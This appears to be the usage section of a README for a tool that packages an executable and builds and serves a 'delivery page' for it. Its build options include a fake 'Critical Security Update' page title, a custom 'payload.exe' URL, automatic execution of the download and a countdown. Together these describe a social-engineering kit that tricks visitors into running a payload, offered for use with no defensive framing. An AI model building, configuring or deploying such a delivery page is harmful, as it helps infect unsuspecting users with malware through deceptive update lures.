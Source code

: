 ## Usage

### Installation

```bash
# Install dependencies
npm install

# Optionally install pkg globally for executable packaging
sudo npm install -g pkg
```

### Building

```bash
# Build everything (executable and delivery page)
node src/build.js

# Build only the delivery page
node src/build.js --no-build-exe

# Build with verbose output
node src/build.js --verbose

# Clean build
node src/build.js --clean
```

### Serving

```bash
# Build and start the delivery server
node src/build.js --serve

# Specify a custom port
node src/build.js --serve --port 8888
```

### Customization

```bash
# Custom executable name
node src/build.js --exe-name custom.exe

# Custom page title
node src/build.js --page-title "Critical Security Update"

# Custom payload URL (if hosting elsewhere)
node src/build.js --payload-url "https://example.com/payload.exe"

# Disable auto-execution
node src/build.js --no-auto-execute

# Disable countdown
node src/build.js --countdown 0
```
